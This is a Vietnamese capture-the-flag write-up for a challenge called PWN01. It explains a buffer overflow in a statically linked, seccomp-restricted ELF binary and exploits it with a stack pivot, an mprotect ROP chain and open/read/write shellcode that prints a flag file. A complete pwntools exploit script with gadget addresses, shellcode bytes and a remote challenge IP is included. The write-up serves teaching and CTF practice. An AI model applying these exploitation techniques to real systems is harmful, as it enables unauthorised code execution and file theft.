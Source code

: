 # PWN01

![img](./assets/overview.png)

## OVERVIEW

- Challenge cho chúng ta một file ELF 64-bit. Bên dưới là thông tin của file

![img](./assets/file_info.png)

- Tiếp theo mình cho file này vào ida để decompile nó xem bên trong nó thực hiện những gì.

![img](./assets/main.png)

- Hàm main đầu tiên `setbuf()` cho các file, sau đó gọi đến hàm `init_seccomp()`.
- Kiểm tra hàm `init_seccomp()`, mình biết được hàm tạo ra những quy tắc cho file, cụ thể ở đây là không cho phép sử dụng lệnh gọi `execve (0x3b)` và một số quy tắc khác với hàm `bpf()` mà mình chưa rõ (Cũng vì hàm này nên cũng tiêu tốn khá nhiều thời gian giải bài của mình :v).

![img](./assets/seccomp-tools.png)

- Tuy nhiên từ đây, ta biết là gần như chúng ta không thể lấy được shell đang chạy chương trình.
- Tiếp trong hàm main, ta có 2 lệnh in màn hình, lệnh nhập cho biến `nm` với đầu vào `256` ký tự, in tiếp ra màn hình thông báo và lệnh `read(0, v6, 0x90);`, lệnh này gây buffer overflow vì biến `v6` được khởi tạo có `96 bytes`. Như vậy là mình có thể ghi đè thêm `0x30 bytes`.
- Và sau đó là hàm `is_this_funny()` thực hiện việc kiểm tra `11` ký tự đầu của chuỗi `v6` xem có đúng bằng với chuỗi `"I'm weebiii"` không. Nếu không thì sẽ thực hiện thoát chương trình ngay. Còn nếu có thì chương trình được thực hiện tiếp đến khi thoát hàm main.

![img](./assets/is_this_funny.png)

- Mình có rà soát lại các hàm khác và tìm được một hàm `winwin()`, tuy nhiên chúng ta đã không thể dùng lời gọi `0x3b` để lấy được shell rồi :v.

![img](./assets/winwin.png)

## IDEA

- Mình sẽ dùng lỗi buffer overflow để tạo một đoạn ROP gadget chuyển hướng `RIP` về địa chỉ của `nm`, tại `nm` mình sẽ lưu trữ các địa chỉ của các ROP gadget khác.
- Các lệnh này đầu tiên sẽ thay đổi địa chỉ của con trỏ `RSP`, biến vùng nhớ của `nm` trở thành stack "ảo" để chúng ta thực hiện chuỗi các gadget khác đằng sau đó, như vậy là mình có thể thực hiện ROP thoải mái hơn.
- Mình sẽ chia `nm` thành 3 phần, phần đầu dùng để chứa địa chỉ của các ROP gadget, phần thứ 2 sẽ dùng để chứa shellcode, phần thứ 3 thì mình sẽ dùng để chứa data cho shellcode.
- Do chúng ta không thể gọi đến lệnh lấy shell, nên mình sẽ thử in ra các file trên server xem có tìm được flag không (Thật ra đây là ý tưởng cuối cùng mình có thể làm).

## DETAILS

- Mình dư ra `48 bytes` khi lấp đầy được biến `v6`, mình cần `8 bytes` ghi đè `RBP` để tới được phần địa chỉ `RET` của hàm `main`. Như vậy là mình còn `40 bytes` để thao tác.
- Thật may là file này được compile với `statically linked`, tức là file đã chứa hầu hết các hàm của thư viện, điều này sẽ thuận tiện cho việc tìm các gadget hơn.
- Dưới đây là những địa chỉ và giá trị hữu ích mà mình tìm được để thực hiện việc khai thác. 

![img](./assets/rop_list.png)

- Đầu tiên mình sẽ xây dựng payload cho việc ghi dữ liệu vào `nm`.

![img](./assets/nm_input.png)

- Ở đây mình sử dụng `16 bytes` đầu cho việc điền tên file, vì mình không biết tên file flag là gì, nên mình sẽ dành `16 bytes` cho việc thử tên.
- Sau đó là gadget pop `RSP`, lệnh này sẽ thay đổi địa chỉ trong `RSP` thành giá trị nào đó (lúc này `RSP` vẫn trỏ lên stack nên giá trị truyền vào `RSP` sẽ nằm trên stack).
- Sau đó là các gadget truyền đối số vào các thanh ghi và thực hiện `mprotect(data_segment, 0x2000, 7);` lệnh này sẽ thực hiện set quyền `rwx` cho cả phân đoạn `data` (chứa cả `nm`). Mình phải làm điều này vì file đã bật `NX` (không cho phép có phân đoạn nhớ nào có cả thuộc tính ghi và thực thi).
- Sau khi thực hiện lệnh `mprotect();` xong thì mình sẽ nhảy đến vùng nhớ của shellcode để thực thi shellcode.
- Đây sẽ là tên file mình sử dụng.

![img](./assets/file_and_shellcode.png)

- Shellcode của mình thực hiện việc mở file có tên trong biến file, và sau đó đọc `0x100 bytes` trong file đó và ghi vào địa chỉ `0x4d73d0`, phần này là phần vùng nhớ cuối của biến `nm`. Tiếp theo là phần in ra dữ liệu tại địa chỉ `0x4d73d0`.

![img](./assets/shellcode.png)

- Sau đó mình sẽ gộp 2 phần ROP và shellcode vào là được payload để truyền vào biến `nm` rồi.
- Còn biến `v6`, mình sẽ ghi đoạn đầu đúng như chuỗi trong hàm `is_this_funny();` để chương trình không chạy vào hàm `exit();`. Sau đó là phần padding `(0x68-11) bytes` để chúng ta đến được vùng nhớ `RET` của `main`.

![img](./assets/payload.png)

- Chuỗi các gadget mình sử dụng sẽ set địa chỉ bắt đầu của phần ROP trong `nm` vào `RSI`, và sau đó sẽ chuyển hướng `RIP` đến vùng nhớ đó thực hiện các lệnh trong ROP. 
- Tuy nhiên sau khi chuyển hướng `RIP` đến vùng nhớ của `nm` thì chúng ta vẫn phải thay đổi tiếp `RSP` để thực hiện tạo một stack "ảo", do đó sau lệnh `jmp rsi`, mình sẽ để địa chỉ tiếp theo trong ROP trên `nm`.

- Đây là script dùng để khai thác.

```python
from pwn import *
#----------------------------------------------
# Register pop gadget
pop_rsi     = 0x4021e4 # : pop rsi ; ret
pop_rdx     = 0x450b6d # : pop rdx ; ret
pop_rdi     = 0x4033e1 # : pop rdi ; ret
mtf         = 0x401dc0 # : pop rsp ; ret

# Change RIP gadget
jmp_ptr_rsi = 0x486638 # : jmp qword ptr [rsi]

# Address
nm_rop  = 0x4D7330 # Start of ROP chain in nm
mprotec = 0x452E50 # mprotec address

start_s = 0x4d6000 # start segment for mproc
size_s  = 0x2000   # size that want to set
per_s   = 7        # mode rwx
sh_addr = 0x4d7378 # shellcode's address

# Data
file    = b"flag"
shellcode = b"\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x20\x73\x4D\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\x0F\x05\x48\x89\xC7\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05"
#----------------------------------------------
# Code Start
p = remote("167.172.80.186", 6666)
p.recvuntil(b"> ")

ROP = file + b"\0"*(16-len(file)) + p64(mtf) 
ROP += p64(pop_rdi) + p64(start_s) 
ROP += p64(pop_rsi) + p64(size_s) 
ROP += p64(pop_rdx) + p64(per_s) 
ROP += p64(mprotec)
ROP += p64(sh_addr) 

p.send(ROP + shellcode)

p.recvuntil(b"> ")

payload = b"I'm weebiii" + b"a"*(0x68-11)
payload += p64(pop_rsi) + p64(nm_rop) 
payload += p64(jmp_ptr_rsi) 
payload += p64(nm_rop + 8)

p.send(payload)

p.interactive()

```

## RESULT

![img](./assets/result.png)